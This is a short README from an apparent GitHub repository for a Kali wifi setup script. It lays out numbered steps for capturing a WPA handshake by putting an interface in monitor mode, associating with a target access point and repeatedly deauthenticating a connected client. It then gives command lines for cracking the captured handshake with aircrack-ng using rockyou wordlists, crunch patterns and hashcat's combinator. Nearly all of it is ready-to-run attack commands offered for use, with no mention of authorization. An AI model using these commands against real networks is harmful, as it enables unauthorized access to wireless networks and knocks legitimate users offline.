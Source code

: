 # kali_wifi_setup_script
A basic script to bring a wlan0 interface up to monitor mode and start airodump-ng if required

Route to capture wpa handshake

1: use the above output to decide on target and note details:
```
BSSID:     00:00:00:00:22:30
ESSID:     TESTAP
Client:    00:00:00:00:00:ED
Mon0:      00:00:00:00:00:A8
Channel:   11
```
2: Screen 1 - Monitor target for clients using: ```airodump-ng -c <Channel> --bssid <BSSID> -w <CaptureName> <Mon0 interface name>```
  
3: Screen 2 - Associate with the bssid: ```aireplay-ng -1 0 -e <ESSID> -a <AP MAC> -h <Your Mon0 MAC> <Mon0 interface name>```
  
4: Screen 3 - death a connected client periodically until the wpa handshake is witnessed / captured in screen 1 
  ```aireplay-ng -0 1 -a <AP MAC> -c <Client MAC to DeAuth> <Mon0 interface name>```
  
5: Go get a life and hope that you can attack the wifi handshake captured

```john --wordlist=/usr/share/wordlists/rockyou.txt --rules --stdout | aircrack-ng -0 -e "THEAPANAME" -w - /SOMEPATH/THECAPTURENAME.cap```

6: If you know a pattern for the wifi password then try the following items?

```crunch 8 8 abcdef1234567890 | aircrack-ng -0 -e "THEAPANAME" -w - /SOMEPATH/THECAPTURENAME.cap
crunch 8 8 abcdefghijklmnopqrstuvqxyz | aircrack-ng -0 -e "THEAPANAME" -w - /SOMEPATH/THECAPTURENAME.cap
```

7: Failing all the above and if you have a powerful enough GPU GTX 1080 :D then try combinations of words such as:
```/usr/lib/hashcat-utils/combinator.bin /usr/share/wordlists/rockyou.txt /usr/share/wordlists/rockyou.txt  |aircrack-ng -0 -e "THEAPANAME" -w - SOMEPATH/THECAPTURENAME.cap```


All of the above may produce 0 results and take a looong time to do so, however if weak words, patterns or weak words joined are used then the above will yield a result eventually......maybe......?
